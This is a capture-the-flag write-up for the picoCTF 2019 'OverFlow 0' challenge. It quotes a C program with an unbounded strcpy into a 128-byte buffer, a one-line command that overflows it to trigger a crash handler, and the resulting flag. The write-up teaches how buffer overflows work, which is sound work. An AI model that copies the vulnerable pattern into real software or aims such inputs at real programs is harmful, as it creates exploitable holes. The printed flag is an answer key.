 # OverFlow 0
**Points:** 100

## Category
Binary Exploitation

## Task
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln.c).

# Solution
Upon examining the source code we can see that there's a ```strcpy()``` function used to copy the string, which is vulnerable as it doesn't check the length of input buffer and can easily cause a buffer overflow. 
```c
// header files

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  // Open flag in read mode
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  // set effective gid
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}

```
So we will exploit that by entering extra characters into it, which will cause the ```SIGSEGV``` signal and trigger the ```sigsegv handler``` to print the flag. Since 128 bytes is assigned to it, we will enter more alphabets than that (some extra because of the memory organization).

```console
r00t@linux:~$ ./vuln $(python -c "print('\x65'*133)")
picoCTF{3asY_P3a5y1fcf81f9}
```

# Solution
> picoCTF{3asY_P3a5y1fcf81f9}
